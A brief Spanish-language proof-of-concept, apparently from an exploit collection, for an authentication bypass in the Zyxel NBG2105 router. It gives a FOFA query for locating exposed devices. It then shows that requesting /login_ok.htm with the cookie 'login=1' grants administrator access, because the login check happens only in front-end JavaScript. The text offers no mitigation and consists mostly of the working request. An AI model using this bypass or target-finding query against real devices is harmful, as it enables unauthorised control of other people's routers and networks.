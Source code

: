 <languages  />

Impacto de la vulnerabilidad
----------------------------

    Zyxel NBG2105

FOFA
----

    app="ZyXEL-NBG2105"

![](Xnip2021-04-06_09-32-28.jpg "Xnip2021-04-06_09-32-28.jpg")

El archivo de front-end `/js/util_gw.js ` tiene la verificación de front-end del parámetro `Cookie login`.

Si solicita lo siguiente, será redirigido a la página ` home.htm ` como administrador.


    http://xxx.xxx.xxx.xxx/login_ok.htm

    Cookie: login=1;

![](Xnip2021-04-06_09-36-42.jpg "Xnip2021-04-06_09-36-42.jpg")